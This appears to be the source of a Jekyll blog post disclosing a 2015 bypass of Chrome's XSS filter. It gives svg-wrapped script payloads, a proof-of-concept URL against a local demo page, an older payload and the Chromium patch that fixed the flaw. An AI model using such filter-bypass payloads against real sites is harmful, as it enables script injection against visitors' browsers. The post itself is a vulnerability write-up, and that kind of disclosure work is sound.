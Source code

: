 ```yaml
---
layout: post
title: Google Chrome Anti-XSS Filter Bypass
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

#### First

众所周知Chrome浏览器的Xss Filter是基于模糊匹配敏感关键字的方式进行拦截外部JavaScript脚本注入的，然而可以通过svg标签绕过Xss Filter.

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/ysao8.png">

#### Details

	Affected Products:
	Google Chrome 43.0.2357.124 m (letest stable version)
	
	Discovery Date:
	16-06-15
	
	Payload:
	<svg><script>/<1/>alert()</script></svg>
	<svg><script>0<1>alert(document.domain)</script></svg>

#### POC

`OSX & Chrome 43.0.2357.65`

	http://127.0.0.1/demo.php?xss=<svg><script>/<1/>alert(document.domain)</script></svg>

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/4rywe7.png">

> 13年Gainover也分享过一个svg标签Bypass Chrome Xss Filter的Payload:`<svg><script xlink:href=data:,alert(1)></script></svg>`现已失效.

#### Patch

	Index: Source/core/html/parser/XSSAuditor.cppt a/Source/core/html/parser/XSSAuditor.cpp b/Source/core/html/parser/XSSAuditor.cpp
	index a1e1852201d23ac858c3b5065a2e26f52d128f4d..e73259145366c12c821a710fe83d3637529478ee 100644
	--- a/Source/core/html/parser/XSSAuditor.cpp
	+++ b/Source/core/html/parser/XSSAuditor.cpp
	@@ -471,15 +471,18 @@ bool XSSAuditor::filterCharacterToken(const FilterTokenRequest& request)
	if (m_state == PermittingAdjacentCharacterTokens)
	     return false;
 
	-    if ((m_state == SuppressingAdjacentCharacterTokens)
	-        || (m_scriptTagFoundInRequest && isContainedInRequest(canonicalizedSnippetForJavaScript(request)))) {
	+    if (m_state == FilteringTokens && m_scriptTagFoundInRequest) {
	+        String snippet = canonicalizedSnippetForJavaScript(request);
	+        if (isContainedInRequest(snippet))
	+            m_state = SuppressingAdjacentCharacterTokens;
	+        else if (!snippet.isEmpty())
	+            m_state = PermittingAdjacentCharacterTokens;
	+    }
	+    if (m_state == SuppressingAdjacentCharacterTokens) {
         request.token.eraseCharacters();
         request.token.appendToCharacter(' '); // Technically, character tokens can't be empty.
	-        m_state = SuppressingAdjacentCharacterTokens;
         return true;
     }
	-
	-    m_state = PermittingAdjacentCharacterTokens;
     return false;
	 }

#### Other

* <a target="_blank" href="http://vulnerable.info/browsers/bypassing-chromes-anti-xss-filter/">Bypassing Chrome’s Anti-XSS Filter</a>

* <a target="_blank" href="https://codereview.chromium.org/1187843005/">Issue 1187843005: XSSAuditor: Dont give a pass to subsequent script blocks if first one is empty. (Closed)</a>
